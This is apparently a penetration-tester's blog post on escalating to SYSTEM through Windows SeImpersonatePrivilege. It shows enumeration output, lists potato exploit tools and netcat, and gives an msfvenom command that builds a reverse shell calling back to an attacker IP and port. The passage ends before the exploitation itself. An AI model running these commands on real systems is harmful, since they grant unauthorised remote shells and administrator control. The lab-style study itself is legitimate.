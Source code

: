 ### SeImpersonatePrivilege
How to exploit SeImpersonatePrivilege with different ways, it is also gud to check what version of operating system were dealing with
```
C:\Users\Public\Desktop>systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
Host Name:                 REMOTE
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
System Type:               x64-based PC
Hotfix(s):                 4 Hotfix(s) Installed.
```

# Assume you have exploi a windows operating system and you run the **whoami/priv** you find that you can exploit to **nt authority\system**  throught tokenImpersonate, there many ways do this but when doing pentesting, in this blog am going to upload every technique i use when i meet this enviroment when approaching a target.

## Take an example
```
C:\Users\Public\desktop>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

C:\Users\Public\desktop>
```

From the above scenarion there many ways you can try to exploit this but actually i am making this one so i can easy simplfy my way in with this easy way to become administrator.

## first thing were gonna need the following into our target machine 
1. nc.exe (specific for windows)
2. RoguePotato.exe
3. JuicyPotato
4. payload with msfvenom specific for windows(msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.29 LPORT=4444 -a x64 --platform Windows -f exe -o shell.exe)
```
C:\Users\Public\desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D582-9880

 Directory of C:\Users\Public\desktop

04/13/2024  08:59 AM    <DIR>          .
04/13/2024  08:59 AM    <DIR>          ..
04/13/2024  07:23 AM    <DIR>          Microsoft
04/13/2024  06:59 AM            59,392 nc.exe
04/13/2024  07:23 AM           347,648 potato.exe
04/13/2024  08:59 AM           159,232 rogue.exe
04/13/2024  07:28 AM             7,168 shell.exe
04/13/2024  08:39 AM            27,136 spoofer.exe
02/20/2020  03:14 AM             1,191 TeamViewer 7.lnk
               7 File(s)        601,801 bytes
               3 Dir(s)  13,362,515,968 bytes free
```


